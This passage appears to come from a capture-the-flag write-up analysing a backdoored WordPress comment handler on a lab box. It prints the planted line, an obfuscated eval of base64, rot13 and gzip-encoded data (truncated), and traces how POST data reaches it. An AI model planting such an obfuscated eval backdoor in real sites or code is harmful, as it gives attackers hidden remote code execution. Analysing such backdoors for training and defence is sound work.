         if ( isset( $comment_data['comment_post_ID'] ) ) {
            $comment_post_ID = (int) $comment_data['comment_post_ID'];
        }
        if ( isset( $comment_data['author'] ) && is_string( $comment_data['author'] ) ) {
            $comment_author = trim( strip_tags( $comment_data['author'] ) );
        }
        if ( isset( $comment_data['email'] ) && is_string( $comment_data['email'] ) ) {
            $comment_author_email = trim( $comment_data['email'] );
        }
        if ( isset( $comment_data['url'] ) && is_string( $comment_data['url'] ) ) {
            $comment_author_url = trim( $comment_data['url'] );
        }
        if ( isset( $comment_data['comment'] ) && is_string( $comment_data['comment'] ) ) {
            $comment_content = trim( $comment_data['comment'] );
        }
        if ( isset( $comment_data['comment_parent'] ) ) {
            $comment_parent = absint( $comment_data['comment_parent'] );
        }
    
        // aded to validte  my ownemail against my  internal scrit
        // ba4fb13188ee48077524f9ac23c230250c5661aec9776389e8befbce277c72de - ignore
        eval(gzuncompress(str_rot13(base64_decode('a5wUmlLSs+wWUodmvyoauDVkCx608xfu7oz+...[snip]...
    

After a series of collecting the various fields and saving them in variables,
there’s this `eval` call. It’s very suspect to have something passed through a
few layers of encoding, then decompressed, and passed to `eval`. At this
point, it’s not clear what the 64 characters string in the comment starting
with “ba4f” is, but it looks like a SHA256 hash. The typos / poor english in
the comments are also a potential indicator of maliciousness (though also
could just be sloppy on toby’s part).

#### Backdoor Context

This suspect code is in the `wp_handle_comment_submission` function. That
function is called from a `wp-comments-post.php`, which is where my POST to
submit a comment went earlier:

    
    
    oxdf@hacky$ grep -r wp_handle_comment_submission backup/
    backup/wordpress.toby.htb/html/wp-comments-post.php:$comment = wp_handle_comment_submission( wp_unslash( $_POST ) );
    backup/wordpress.toby.htb/html/wp-includes/comment.php:function wp_handle_comment_submission( $comment_data ) {
    backup/wordpress.toby.htb/html/wp-includes/rest-api/endpoints/class-wp-rest-comments-controller.php:             * comment_content. See wp_handle_comment_submission().
    

In that file, it passes the full `$_POST` object (the request) into
`wp_handle_comment_submission`.

### Decode

#### Manual
